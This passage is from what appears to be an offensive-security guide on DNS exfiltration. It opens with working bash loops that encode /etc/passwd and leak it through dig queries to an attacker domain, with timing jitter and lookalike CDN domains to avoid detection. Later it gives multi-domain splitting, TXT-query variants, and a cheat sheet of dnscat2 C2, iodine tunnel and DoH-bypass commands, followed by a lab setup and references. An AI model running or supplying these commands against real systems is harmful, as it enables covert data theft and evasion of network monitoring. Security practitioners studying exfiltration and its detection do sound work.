cat /etc/passwd | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    dig +short "${chunk}.exfil.attacker.com" > /dev/null 2>&1
    sleep $((RANDOM % 8 + 3))   # random sleep 3-11 seconds
done
```

### Mimic Legitimate Domains

```bash
# Use a domain that looks like a CDN or analytics service
# Register: cdn-metrics-delivery.com, analytics-beacon-v2.net, etc.
dig +short "ONXW2ZJA.cdn-metrics-delivery.com"
```

### Distribute Across Multiple Domains

```bash
# Split exfil across several domains (harder to correlate)
DOMAINS=("d1.cdn-a.net" "d2.cdn-b.net" "d3.cdn-c.net")
IDX=0
cat /etc/passwd | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    DOMAIN="${DOMAINS[$((IDX % 3))]}"
    dig +short "${chunk}.${DOMAIN}" > /dev/null 2>&1
    IDX=$((IDX + 1))
    sleep 1
done
```

### Use TXT Record Queries (Higher Capacity, Less Suspicious in Some Environments)

```bash
# TXT queries can carry more data per response
# Some environments generate more TXT queries legitimately (SPF, DKIM lookups)
dig +short TXT "ONXW2ZJAOZSXG43U.exfil.attacker.com"
```

---

## 16. Quick Reference Cheat Sheet

### Tool Comparison

| Tool | OS | Privilege | Setup Complexity | Throughput | Features |
|---|---|---|---|---|---|
| Manual `dig` | Linux/macOS | User | None | Low | Basic |
| Manual PowerShell | Windows | User | None | Low | Basic |
| **dnscat2** | Linux/Windows | User | Medium | Medium | Shell, file xfer, port fwd |
| **iodine** | Linux/macOS | Root | Medium | High | Full IP tunnel |
| **dns2tcp** | Linux | User | Medium | Medium | TCP-over-DNS |
| **heyoka** | Linux | User | High | Medium | Spoofed DNS |
| **DNSExfiltrator** | Windows | User | Low | Medium | PowerShell |

### Command Quick Reference

| Scenario | Tool | Command |
|---|---|---|
| Quick file exfil (Linux) | `dig` | `base32 file \| fold -w50 \| while read c; do dig $c.domain; done` |
| Quick file exfil (Windows) | PowerShell | `[Convert]::ToBase64String([IO.File]::ReadAllBytes("file"))` → loop DNS |
| Full C2 channel | dnscat2 | `./dnscat --dns domain=exfil.attacker.com --secret=pass` |
| IP tunnel over DNS | iodine | `iodine -f -P pass tunnel.attacker.com` |
| TCP/53 fallback | dig | `dig +tcp chunk.exfil.attacker.com` |
| DoH bypass | curl | `curl "https://8.8.8.8/resolve?name=chunk.domain&type=A"` |
| Server-side capture | tcpdump | `tcpdump -i eth0 udp port 53 -A \| grep exfil` |
| Server-side Python | dnslib | `python3 dns_logger.py 53` |

### Encoding Reference

| Input | Command | Output (DNS-Safe) |
|---|---|---|
| `hello` | `echo -n hello \| base32 \| tr '[:upper:]' '[:lower:]' \| tr -d '='` | `nbswy3dp` |
| `hello` | `echo -n hello \| xxd -p` | `68656c6c6f` |
| File | `base32 file \| tr -d '=\n' \| tr '[:upper:]' '[:lower:]'` | Continuous base32 stream |
| File | `xxd -p file \| tr -d '\n'` | Continuous hex stream |

---

## 17. Lab Setup (Practice Environment)

### Minimal Lab: One Machine

```bash
# Simulate DNS exfil locally using localhost
# Terminal 1: Run DNS logger on non-privileged port
python3 dns_logger.py 5353

# Terminal 2: Send test queries to localhost
echo -n "test secret" | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    dig +short "${chunk}.exfil.attacker.com" @127.0.0.1 -p 5353
    sleep 0.5
done

# Verify output in exfil_log.txt
tail -f exfil_log.txt
```

### VPS Lab Setup Checklist

```
[ ] Register a throwaway domain (e.g., Porkbun, Namecheap — ~$1-10/year)
[ ] Provision a VPS (DigitalOcean, Linode, Vultr — ~$5/month)
[ ] Point domain NS records to VPS IP
[ ] Create exfil.yourdomain.com NS record pointing to same VPS
[ ] Open UDP/53 and TCP/53 in VPS firewall/security group
[ ] Deploy dns_logger.py or dnscat2 server
[ ] Test delegation: dig NS exfil.yourdomain.com — should return your VPS
[ ] Test query logging: dig test.exfil.yourdomain.com — should appear in log
[ ] (Optional) Install iodined for tunnel testing
```

---

## References

| Resource | URL / Location |
|---|---|
| MITRE ATT&CK T1048.001 | https://attack.mitre.org/techniques/T1048/001/ |
| dnscat2 GitHub | https://github.com/iagox86/dnscat2 |
| iodine GitHub | https://github.com/yarrick/iodine |
| dnslib Python library | https://github.com/paulc/dnslib |
| DNSExfiltrator (PowerShell) | https://github.com/Arno0x/DNSExfiltrator |
| RFC 1035 — DNS Protocol | https://www.rfc-editor.org/rfc/rfc1035 |
| Zeek DNS analysis | https://docs.zeek.org/en/master/scripts/base/protocols/dns/ |
| SANS DNS Exfil Detection | https://www.sans.org/reading-room/whitepapers/dns/ |

---

*Last updated: 2025 | Category: Data Exfiltration | Tags: dns, exfiltration, dnscat2, iodine, c2, covert-channel*
